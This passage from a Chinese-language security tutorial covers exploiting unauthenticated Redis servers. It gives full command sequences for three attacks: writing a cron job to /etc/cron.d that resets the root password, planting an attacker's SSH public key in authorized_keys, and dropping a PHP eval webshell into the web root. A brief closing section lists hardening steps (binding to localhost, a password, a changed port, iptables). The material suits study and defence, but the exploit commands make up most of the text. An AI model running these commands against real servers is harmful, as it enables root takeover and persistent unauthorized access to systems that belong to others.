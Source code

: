 ##### 利用crontab修改root密码
为了不覆盖原来的crontab，可以在etc/cron.d目录下写入计划任务，其次可以直接修改root密码。
```bash
redis-cli -h 10.0.0.1
set webshell "\n* * * * * root echo nmask | passwd --stdin root\n"
config set dir /etc/cron.d
config set dbfilename root
save
```

##### 写ssh-keygen公钥登录服务器
利用条件：
```bash
1.redis对外开放，且未授权访问（默认配置）
2.服务器的ssh对外开放，可通过key登录
```
详细攻击方式如下：
```bash
准备好自己的公钥，写入本地文件text.txt。
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

2. 通过redis将该文件写入内存
$ redis-cli -h 10.0.0.1 flushall
$ cat test.txt | redis-cli -h 10.0.0.1 -x set crackit

3. 利用redis-cli 写入配置的方式将公钥写入到.ssh目录下
$ redis-cli -h 10.0.0.1
10.0.0.1:6379> config set dir /Users/nmask/.ssh/
OK
10.0.0.1:6379> config get dir
1) "dir"
2) "/Users/nmask/.ssh"
10.0.0.1:6379> config set dbfilename "authorized_keys"
OK
10.0.0.1:6379> save
OK
```
##### 获取web服务的webshell
当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell。
```bash
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php @eval($_POST['test']);?>"
save
```
说明：执行以上命令，即可将shell写入web目录。

#### 漏洞修复
到redis安装目录下，配置redis.conf文件：
1、默认只对本地开放
bind 127.0.0.1
2、添加登陆密码
requirepass www.secpulse.com
3、在需要对外开放的时候修改默认端口
port 2333
4、最后还可以配合iptables限制开放
